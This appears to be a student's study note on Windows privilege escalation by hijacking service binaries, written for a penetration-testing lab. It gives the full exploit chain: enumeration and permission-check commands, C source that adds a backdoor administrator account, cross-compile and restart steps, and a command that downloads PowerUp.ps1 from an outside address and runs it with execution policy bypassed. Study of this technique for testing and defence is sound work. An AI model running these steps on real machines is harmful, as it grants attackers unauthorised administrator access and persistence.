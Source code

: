 
Windows Services are long-running background executable or applications managed by the `Service Control Manager`.

They can be manage by the `Services snap-in`, `PowerShell`, or `sc.exe command line tool`.

Windows uses the `LocalSystem`, `Network Service`, and `Local Service`, user accounts to run its own services.

Users or programs creating a service can choose either one of the accounts from the above, a domain user or a local user.

#### Service Binary Hijacking

We can check installed services using `services.msc`, `Get-Service`, or `Get-CimInstance`

`Get-Service and Get-CimInstance` requires administrative user when using shell (UAC), but can be used with RDP.

`Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}` get services running under the win32 service class and only read the name, state and pathname of running services - we should look for service binaries out side of system32, these binaries are managed and installed by users, which could result in poor permissions/management of binary

binary permissions:

`I` indicates that the permission is inherent of the parent directory, without `I` we can draw the conclusion that the binary's permissions was set on purpose to that permission.

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

`icacls "C:\xampp\apache\bin\httpd.exe"` or `Get-ACL "C:\xampp\apache\bin\httpd.exe"` - read binary permissions

If we find a service that we can replace, we can replace it with the below binary to add our own administrative user.

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

`x86_64-w64-mingw32-gcc adduser.c -o adduser.exe` - we can cross-compile our binary for a 64 bit system

`Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}` - check the start mode of a specific service to determine how we will restart the service

`whoami /priv` - list out privileges to see if we can restart the system to refresh the binary (if the startup is set to auto, we need `SeShutdownPrivilege)` (state is for the current command whoami, we only need to see the presence of the privilege)

`net stop mysql` & `net start mysql` stop and start a service to reset the binary for PrivEsc 

`shutdown /r /t 0` - reboot the machine in zero seconds if we need to reboot

*after reboot check if the binary as worked, maybe check the administrators group to see if our user was added*

`If we have gui access and have successfully added a new user, we may need to spawn an administrative powershell and log in with the new users credentials to get privileges we need to access other folders on the system like other admin folders.`

#### Automate service hijacking

We can use `/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1` to detect an escalation vector on a windows system.

```
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1

powershell -ep bypass

 . .\PowerUp.ps1
 
Get-ModifiableServiceFile
```

`Install-ServiceBinary -Name 'mysql'` replace the service binary with out malicious binary which by default adds a new user `john` with the password `Password123!` to the `administrators group`
